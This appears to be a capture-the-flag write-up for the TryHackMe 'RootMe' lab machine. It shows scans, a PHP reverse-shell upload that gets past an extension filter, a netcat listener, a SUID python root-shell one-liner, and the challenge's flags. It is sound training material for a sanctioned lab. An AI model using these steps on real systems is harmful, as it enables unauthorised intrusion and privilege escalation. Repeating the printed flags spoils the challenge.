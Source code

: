 ```yaml
---
title: RootMe
date: 2022-04-24 17:00:00 +500
categories: [THM, easy machine]
tags: [suid]     # TAG names should always be lowercase
---
```



## Reconnaissance

### Scan the machine, how many ports are open?

Let's start with a nmap scan
```bash
nmap 10.10.138.249
```
and then a detailed one to see the port service and version

```bash
nmap -sCV -p22,80 10.10.138.249
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
> 2


### What version of Apache is running?

In the Nmap scan, we see that we already have the answer to this
> Apache/2.4.29

### What service is running on port 22?

> ssh


### Find directories on the web server using the GoBuster tool.

Let's do a Gobuster scan
the syntax is:
```
gobuster [mode] -u [target ip] -w [wordlist]
```

```bash
gobuster dir -u 10.10.138.249 -w /usr/share/dirb/wordlists/common.txt
```

```
/css                  (Status: 301) [Size: 312] [--> http://10.10.138.249/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.138.249/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.138.249/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.138.249/uploads/]
```

### What is the hidden directory?

We see two hidden directories, /panel and /uploads but the correct answer is

> /panel

which is a site to upload a file

## Getting a shell

So now that we have a file to upload a file, let's start trying to upload a php reverse shell that i suppose we can execute later going to the /uploads directory

I am going to use this:

https://github.com/pentestmonkey/php-reverse-shell

Remember to change the IP and PORT of your machine that you will use. And set up the listener with the port in your machine

```bash
nc -lvnp 1234
```

but we get a prompt that says php files are not allowed

Let's try to use another extension of php if this will bypass the extension filter

like these that I got from: https://book.hacktricks.xyz/pentesting-web/file-upload
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

and with the second extension, the file got uploaded!

now let's head over to the uploads directory and try to run it 

I wasn't running so I tried with a more popular extension: .php5 and it worked, now we have a shell, let's retrieve the user.txt flag

### user.txt

to find the flag, since I know what the name is I will search for it with the command find
```bash
find / -name user.txt 2>/dev/null
```
the way it works is 'find [directory to search] -name [name of the file] 2>/dev/null [this last part is to avoid printing errors]

we found it on /var/www/user.txt, lets use cat to read it

> THM{y0u_g0t_a_sh3ll}

## Privilege Escalation

### Search for files with SUID permission, which file is weird?

to find this kind of file we can use the following command:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
the one that stands out is this:

> /usr/bin/python

### Find a form to escalate your privileges.

let's head over to _gtfobin_ to search an exploit for this SUID FILE

we got this
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
remember to change ./python to the actual directory path that we found
```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

and with this, we got a root shell

### root.txt
I head over /root and there it is, the root.txt flag

> THM{pr1v1l3g3_3sc4l4t10n}